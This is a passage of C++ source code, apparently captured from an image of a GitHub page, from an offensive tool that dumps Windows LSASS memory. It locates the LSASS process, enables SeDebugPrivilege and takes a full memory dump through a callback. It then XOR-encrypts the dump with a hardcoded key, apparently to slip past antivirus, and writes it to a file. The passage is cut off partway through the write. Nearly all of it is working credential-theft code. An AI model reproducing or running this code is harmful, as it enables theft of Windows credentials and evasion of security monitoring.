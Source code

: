 ```cpp

	while (bProc)
	{
		if (strcmp(procname, proc.szExeFile) == 0)
		{
			pid = proc.th32ProcessID;
			break;
		}
		bProc = Process32Next(snapshot, &proc);
	}
	return pid;
}

int main(int argc, char** argv) 
{
	// Find LSASS PID
	printf("[+] Searching for LSASS PID\n");
	int pid = FindPID("lsass.exe");
	if (pid == 0) {
		printf("[-] Could not find LSASS PID\n");
		return 0;
	}
	printf("[+] LSASS PID: %i\n", pid);
	
	// Make sure we have SeDebugPrivilege enabled
	if (!SetDebugPrivilege())
		return 0;

	// Open handle to LSASS
	HANDLE hProc = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, false, pid);
	if (hProc == NULL) {
		printf("[-] Could not open handle to LSASS process\n");
		return 0;
	}

	// Create a "MINIDUMP_CALLBACK_INFORMATION" structure that points to our DumpCallbackRoutine as a CallbackRoutine
	MINIDUMP_CALLBACK_INFORMATION CallbackInfo = { 0 };
	CallbackInfo.CallbackRoutine = DumpCallbackRoutine;

	// Do full memory dump of lsass and use our CallbackRoutine to handle the dump data instead of writing it directly to disk
	BOOL success = MiniDumpWriteDump(hProc, pid, NULL, MiniDumpWithFullMemory, NULL, NULL, &CallbackInfo);
	if (success) {
		printf("[+] Successfully dumped LSASS to memory!\n");
	} else {
		printf("[-] Could not dump LSASS to memory\n[-] Error Code: %i\n", GetLastError());
		return 0;
	}

	// Xor encrypt our dump data in memory using the specified key
	char key[] = "jisjidpa123";
	printf("[+] Xor encrypting the memory buffer containing the dump data\n[+] Xor key: %s\n", key);
	XOR((char*)dumpBuffer, dumpSize, key, sizeof(key));

	// Create file to hold the encrypted dump data
	HANDLE hFile = CreateFile("LSASS_ENCRYPTED.DMP", GENERIC_ALL, FILE_SHARE_WRITE, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	
	// Write the encrypted dump data to our file
	DWORD bytesWritten = 0;
```